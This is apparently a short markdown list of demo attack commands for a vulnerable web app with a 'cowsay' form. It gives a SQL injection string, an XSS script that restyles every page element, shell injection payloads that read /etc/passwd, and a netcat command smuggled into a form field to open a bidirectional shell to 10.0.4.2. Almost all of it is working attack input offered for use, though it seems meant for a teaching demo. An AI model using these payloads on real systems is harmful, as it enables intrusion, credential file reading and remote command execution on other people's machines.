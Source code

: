 # Demo Commands

## SQL Injection

`' OR 1=1--`


## XSS

```html
<script>
    var elements = document.getElementsByTagName('*');
    for (var i = 0; i < elements.length; ++i) {
        elements[i].style.background='url("https://i.imgur.com/HeGEEbu.jpg")';
    }
</script>
```


## Shell Injection

1. `$(whoami)`
2. `$(cat /etc/passwd)`
3. `a"; cat /etc/passwd #`


### Bidirectional Shell

Run locally: `nc -l 9999`
Place in cowsay form field: `a"; nc -l 10000 | bash | nc 10.0.4.2 9999 #`


